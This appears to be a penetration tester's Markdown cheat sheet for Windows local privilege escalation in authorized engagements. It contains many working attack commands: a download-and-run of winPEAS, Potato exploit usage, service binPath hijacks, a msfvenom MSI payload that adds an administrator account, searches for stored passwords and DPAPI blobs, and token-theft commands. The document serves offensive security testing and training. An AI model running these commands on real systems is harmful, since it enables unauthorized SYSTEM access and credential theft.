

# Privilege Escalation — Windows

Authorized engagements. MITRE: https://attack.mitre.org/tactics/TA0004/ (Windows).

## Flow



## Enumeration — winpeas flow

Release: https://github.com/peass-ng/PEASS-ng/releases (winPEASx64.exe / winPEASany.exe / ps1).

```
# PowerShell, from writable dir
iwr -useb https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe -o wp.exe
.\wp.exe quiet cmd fast
```

Companion: PowerUp (part of PowerSploit / PSAttackFramework). Actively maintained fork: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1.

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

Read the results in this order:

1. `whoami /priv` — any interesting token privileges?
2. `whoami /groups` — local admin-group membership hidden by UAC?
3. Services — unquoted paths, weak perms, writable binaries, always-install MSI?
4. Registry — AlwaysInstallElevated? AutoLogon creds?
5. Patch level — missing rollups?
6. Saved creds, files, schedule tasks writable?

## SeImpersonatePrivilege / SeAssignPrimaryTokenPrivilege

If `whoami /priv` shows `SeImpersonatePrivilege` Enabled (typical on service accounts — IIS `iis apppool\*`, MSSQL service account, etc.): the "Potato" family applies.

- JuicyPotatoNG (Win10 1809+, Server 2019+) — https://github.com/antonioCoco/JuicyPotatoNG
- GodPotato (all modern Windows via RPC / DCOM) — https://github.com/BeichenDream/GodPotato
- PrintSpoofer (spooler abuse, works unless spooler disabled) — https://github.com/itm4n/PrintSpoofer
- RoguePotato (if you control a remote port) — https://github.com/antonioCoco/RoguePotato

Typical usage (GodPotato):

```
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "C:\Windows\u.exe"
```

Full technique write-ups:

- itm4n PrintSpoofer — https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- decoder-it general Potato primer — https://decoder.cloud/2020/12/06/the-defenders-guide-to-the-potato-family/

## Unquoted service paths

```
wmic service get Name,PathName,StartMode | findstr /v /c:"\"" | findstr /i "Auto"
```

If a service `ImagePath` has a space and no quotes — e.g. `C:\Program Files\Foo Bar\svc.exe` — and you can write to `C:\Program Files\Foo.exe` (rare) or `C:\Program Files\Foo Bar\svc.exe` directly, you hijack it. In practice writeable intermediate dir is rare on modern Windows; check anyway.

## Weak service permissions

```
# From PowerUp:
Get-ServiceUnquoted
Get-ServiceFilePermission
Get-ServicePermission
Get-ModifiableService
```

`accesschk.exe -uwcqv "Authenticated Users" *` also surfaces weak service ACLs. Sysinternals.

Exploit pattern: `sc config <svc> binPath= "C:\path\attacker.exe" && sc start <svc>`.

## AlwaysInstallElevated

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Both == 1 → any MSI executed by the user runs as SYSTEM.

```
msfvenom -p windows/x64/exec CMD="net user kd P@ss1 /add && net localgroup administrators kd /add" -f msi -o p.msi
msiexec /quiet /qn /i p.msi
```

Rare in production but periodically shows up in SOE builds. PowerUp flags it.

## Stored credentials

- `cmdkey /list` — Windows Credential Manager entries.
- `runas /savecred` — reuse saved creds.
- `%APPDATA%\Microsoft\Credentials\*` + `%APPDATA%\Microsoft\Protect\*` — DPAPI blobs; mimikatz `dpapi::cred` / `dpapi::masterkey`.
- AutoLogon: `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword`.
- Unattend files: `C:\Windows\Panther\Unattend.xml`, `sysprep.inf`, `sysprep.xml`.
- Group Policy Preferences `cpassword` — decryptable (gpp-decrypt), still turns up on old SYSVOL shares.
- SAM/SECURITY/SYSTEM hive copies in backup dirs.
- `Get-ChildItem -Path C:\ -Include *.config,*.ps1,*.bat,*.xml,*.ini -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'password','passwd','secret'`

## Registry Autologon / putty / VNC

- Autologon creds at `HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`.
- PuTTY stored proxy creds at `HKCU:\Software\SimonTatham\PuTTY\Sessions`.
- VNC DES-encrypted password — trivial to decrypt (many tools).

## Token theft (admin but not SYSTEM)

With admin you can impersonate any process's primary token:

```
# Cobalt Strike
steal_token <pid>
# Sliver
impersonate <user>
# incognito (Meterpreter)
load incognito; list_tokens -u; impersonate_token "NT AUTHORITY\\SYSTEM"
```

Requires SeDebugPrivilege (default for admins).

## DLL hijacking / search order

If a trusted signed binary loads a DLL by bare name and searches writable dirs first, drop a payload DLL. Tools: Koppeling https://github.com/monoxgas/Koppeling, Spartacus https://github.com/Accenture/Spartacus.

## UAC bypass

Many classic bypasses (fodhelper, eventvwr, computerdefaults) still work on default UAC settings but are well-catalogued. UACME catalogue: https://github.com/hfiref0x/UACME. Treat as evasion, not privilege escalation — you must already be in a medium-integrity admin-approval-mode account.

## Patch-level exploits

Get build number: `systeminfo` or `wmic qfe`. Cross-reference missing KBs.

Recent Windows LPEs (verify applicability, don't throw blindly):

- CVE-2024-30088 — NtQueryInformationToken kernel LPE, patched June 2024
- CVE-2023-28252 — CLFS LPE, patched April 2023
- CVE-2022-37969 — CLFS LPE
- PrintNightmare family CVE-2021-1675 / CVE-2021-34527

Use `windows-exploit-suggester`/`wesng` — https://github.com/bitsadmin/wesng — against `systeminfo` output.

## Active Directory paths

Covered in `ad-attacks.md`. At the box level: check for SPNs on the local user (kerberoast), saved creds from previous RDP sessions, Kerberos ticket cache (`klist`).

## Reporting

- `whoami /priv` before + after
- Exact commands + their output
- The elevated proof (`whoami` showing `nt authority\system`)
- Cleanup — added users removed, dropped binaries deleted, services reverted
- Patch reference for the vector

## References

- PEASS-ng — https://github.com/peass-ng/PEASS-ng
- PowerUp — https://github.com/PowerShellMafia/PowerSploit
- HackTricks Windows LPE — https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html
- MSRC advisories — https://msrc.microsoft.com/update-guide
- wesng — https://github.com/bitsadmin/wesng
